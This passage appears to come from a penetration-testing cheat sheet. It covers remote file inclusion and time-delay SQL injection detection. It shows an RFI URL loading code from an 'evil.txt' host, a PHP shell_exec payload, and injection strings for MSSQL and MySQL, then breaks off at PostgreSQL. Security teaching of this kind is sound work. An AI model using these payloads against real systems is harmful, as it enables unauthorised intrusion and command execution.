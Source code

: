          `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt `
        
         `<?php echo shell\_exec("ipconfig");?>`

-   <span id="_mgu7e3u7svak" class="anchor"><span id="_Toc480741820" class="anchor"></span></span>Database Vulnerabilities
    ----------------------------------------------------------------------------------------------------------------------

    -   Playing with SQL Syntax
    A great tool I have found for playing with SQL Syntax for a variety of database types (MSSQL Server, MySql, PostGreSql, Oracle) is SQL Fiddle:
    
    http://sqlfiddle.com
    
    Another site is rextester.com:
    
    http://rextester.com/l/mysql_online_compiler
    
    -   Detecting SQL Injection Vulnerabilities. 
    
         Most modern automated scanner tools use time delay techniques to detect SQL injection vulnerabilities.  This method can tell you if a SQL injection vulnerability is present even if it is a "blind" sql injection vulnerabilit that does not provide any data back.  You know your SQL injection is working when the server takes a LOooooong time to respond.  I have added a line comment at the end of each injection statement just in case there is additional SQL code after the injection point.
    
    
        - **MSSQL Server SQL Injection Time Delay Detection:**
        Add a 30 second delay to a MSSQL Server Query
      
          - *Original Query*
            
            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*
          
            `'; WAITFOR DELAY '00:00:30'; --`

          - *Resulting Query*
         
            `SELECT * FROM products WHERE name='Test'; WAITFOR DELAY '00:00:30'; --`

        - **MySQL Injection Time Delay Detection:**
        Add a 30 second delay to a MySQL Query
      
          - *Original Query*
            
            `SELECT * FROM products WHERE name='Test';`

          - *Injection Value*
          
            `'-SLEEP(30); #`

          - *Resulting Query*
         
            `SELECT * FROM products WHERE name='Test'-SLEEP(30); #`


        - **PostGreSQL Injection Time Delay Detection:**
        Add a 30 second delay to an PostGreSQL Query
      
          - *Original Query*
            